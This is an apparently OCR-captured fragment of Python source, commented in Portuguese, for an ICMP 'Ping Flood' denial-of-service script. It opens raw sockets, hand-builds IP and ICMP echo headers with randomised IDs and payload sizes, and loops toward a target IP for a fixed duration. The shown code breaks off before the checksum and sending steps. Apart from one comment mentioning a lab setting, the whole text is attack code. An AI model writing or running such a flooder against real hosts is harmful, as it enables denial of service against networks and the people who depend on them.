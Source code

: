 ```python
# Função principal
def main(target_ip, duration=30):
    print(f"[*] Iniciando Ping Flood para {target_ip} por {duration} segundos...")
    
    # Verifica permissões de root
    if os.geteuid() != 0:
        print("[!] Erro: Este script precisa ser executado como root para usar sockets raw.")
        sys.exit(1)

    try:
        # Cria um socket raw para ICMP
        s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
    except socket.error as e:
        print(f"[!] Erro ao criar socket: {e}")
        sys.exit(1)

    packet_count = 0
    end_time = time.time() + duration
    
    try:
        while time.time() < end_time:
            # --- Construção do Cabeçalho IP --- (20 bytes)
            ip_ihl = 5          # Internet Header Length (5 words = 20 bytes)
            ip_ver = 4          # Version (IPv4)
            ip_tos = 0          # Type of Service
            ip_tot_len = 0      # Total Length (será calculado depois)
            ip_id = random.randint(10000, 65535) # ID do pacote
            ip_frag_off = 0     # Fragment Offset
            ip_ttl = 255        # Time To Live
            ip_proto = socket.IPPROTO_ICMP # Protocolo (ICMP)
            ip_check = 0        # Checksum (será calculado depois)
            
            # Em ambiente de laboratório, podemos usar o IP real
            source_ip = socket.gethostbyname(socket.gethostname())
            dest_ip = target_ip # IP do alvo

            ip_saddr = socket.inet_aton(source_ip) # Converte IP de origem para binário
            ip_daddr = socket.inet_aton(dest_ip)   # Converte IP de destino para binário

            ip_ihl_ver = (ip_ver << 4) + ip_ihl # Combina versão e IHL

            # Empacota o cabeçalho IP sem o checksum
            ip_header = struct.pack('!BBHHHBBH4s4s' ,
                                ip_ihl_ver, ip_tos, ip_tot_len,
                                ip_id, ip_frag_off,
                                ip_ttl, ip_proto, ip_check,
                                ip_saddr, ip_daddr)

            # --- Construção do Cabeçalho ICMP Echo Request --- (8 bytes + dados)
            icmp_type = 8       # Tipo 8 = Echo Request
            icmp_code = 0       # Código 0 para Echo Request
            icmp_check = 0      # Checksum (será calculado depois)
            icmp_id = random.randint(1, 65535) # ID ICMP
            icmp_seq = packet_count # Número de sequência

            # Dados (payload) - pode ser qualquer coisa
            payload_size = random.randint(32, 1024) # Tamanho aleatório do payload
            icmp_data = bytes(random.getrandbits(8) for _ in range(payload_size))

            # Empacota o cabeçalho ICMP sem o checksum
```